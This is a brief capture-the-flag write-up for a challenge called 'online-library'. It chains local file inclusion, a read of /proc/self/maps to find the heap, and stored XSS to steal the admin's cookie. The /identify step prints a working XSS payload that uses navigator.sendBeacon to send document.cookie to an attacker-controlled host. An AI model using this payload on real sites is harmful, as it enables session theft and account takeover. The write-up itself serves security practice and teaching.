 # online-library

Key point: LFI, memory read, XSS

* Implement local file inclusion by using URL encoding in `/:t/:s/:e` page.
* Find the memory layout (heap) address by getting `/proc/self/maps`.
* Write the XSS payload to memory by making a post request to the `/identify` page with `username=<script>navigator.sendBeacon('//'+document.cookie.substr(13,100).replace('}','')+'ip');</script>`.
* Search the heap page address for the given string, like `ip`.
* Send the URL that reads the contents of the heap to the admin by `/post` page.